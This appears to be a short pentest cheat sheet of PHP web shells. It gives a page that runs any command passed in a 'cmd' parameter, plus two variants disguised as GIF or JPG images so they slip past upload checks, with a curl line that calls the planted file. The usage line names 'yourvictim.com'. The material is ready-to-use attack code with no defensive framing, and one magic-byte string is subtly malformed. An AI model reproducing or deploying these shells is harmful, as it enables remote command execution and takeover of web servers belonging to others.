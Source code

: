 More examples here
-------------------
https://github.com/jivoi/pentest/tree/master/shell

Simple PHP Webshell
-------------------
usage: http://www.yourvictim.com/shellname.php?cmd=whoami

```html
html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```

PHP web shell in a GIF or JPG with curl example
----------------------
```bash
echo 'FFD8FFEo' | xxd -r -p > test.gif
echo '<?php $c=$_GET['c']; echo `$c`; ?>' >> test.gif
curl -v http://ololo/uploads/test.gif?c=id
```

PHP web shell in GIF or JPG
--------------------
```php
GIF89a
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```
